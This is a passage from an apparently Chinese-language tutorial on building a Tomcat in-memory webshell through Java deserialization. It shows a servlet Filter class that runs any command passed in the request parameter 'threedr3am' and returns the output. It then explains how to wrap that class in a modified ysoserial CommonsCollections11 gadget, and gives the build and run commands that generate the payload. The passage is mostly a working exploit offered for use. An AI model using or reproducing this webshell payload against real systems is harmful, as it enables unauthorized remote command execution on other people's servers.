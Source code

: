         }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {

        }

        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
            FilterChain filterChain) throws IOException, ServletException {
            System.out.println(
                "TomcatShellInject doFilter.....................................................................");
            String cmd;
            if ((cmd = servletRequest.getParameter("threedr3am")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

和第一个步骤创建的TomcatEchoInject不一样，这里我们不但基础了AbstractTranslet，还实现了Filter创建一个我们自定义的内存Webshell

最后，我们也按照第一个步骤那样，创建一个ysoserial的`CommonsCollections11`类的拷贝，名叫`CommonsCollections11ForTomcatShellInject`，并把其`Gadgets.createTemplatesImpl(command[0])`的调用改成`Gadgets.createTemplatesImpl(null, TomcatShellInject.class)`，这样，我们的Webshell
payload就完成了。

通过执行maven打包

    mvn clean -Dmaven.test.skip=true compile assembly:assembly

然后执行生成的jar

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatShellInject > ~/tmp/TomcatEchoInject.ysoserial

